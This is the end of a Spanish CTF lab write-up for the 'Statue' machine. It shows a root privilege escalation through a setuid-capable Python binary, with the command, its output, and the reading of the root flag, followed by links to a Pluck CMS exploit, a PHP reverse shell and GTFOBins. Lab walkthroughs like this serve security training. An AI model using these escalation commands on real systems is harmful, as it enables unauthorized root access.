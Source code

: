 * Escalada de privilegios con **binario python** con **capabilities SUID**:

<p align="center">
<img src="/assets/images/THL-writeup-statue/Captura19.png">
</p>

Aunque intentemos ver si este binario tiene **capabilities SUID** con **getcap**, no mostrará nada:
```bash
www-data@TheHackersLabs-Statue:/home$ getcap /usr/bin/python3.12
```

Pero aun así, el comando que menciona la guía, funciona:
```bash
www-data@TheHackersLabs-Statue:/home$ /usr/bin/python3.12 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@TheHackersLabs-Statue:/home# whoami
root
```

Ya solamente buscamos la flag del **Root**:
```bash
root@TheHackersLabs-Statue:/home# cd /root
root@TheHackersLabs-Statue:~# ls
root.txt
root@TheHackersLabs-Statue:~# cat root.txt
...
```
Y con esto, terminamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://m3n0sd0n4ld.github.io/patoHackventuras/cve-2024-9405
* https://www.exploit-db.com/exploits/51592
* https://www.blackduck.com/blog/pluck-cms-vulnerability.html
* https://github.com/pentestmonkey/php-reverse-shell
* https://planetcalc.com/7751/
* https://es.wikipedia.org/wiki/Charles_Wheatstone
* https://gtfobins.github.io/gtfobins/python/
